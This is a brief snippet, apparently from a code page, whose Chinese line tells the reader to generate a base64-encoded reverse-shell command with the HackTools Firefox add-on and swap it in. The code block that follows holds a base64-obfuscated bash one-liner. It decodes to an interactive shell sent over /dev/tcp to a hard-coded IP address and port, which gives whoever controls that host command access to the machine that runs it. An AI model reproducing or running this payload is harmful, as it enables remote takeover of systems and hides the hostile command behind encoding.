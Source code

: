 使用火狐浏览器插件HackTools生成base64编码后的反弹shell命令，替换下面的base64字符串
```
bash -c {echo,L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8zOS45OC4yNTAuNDcvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}
```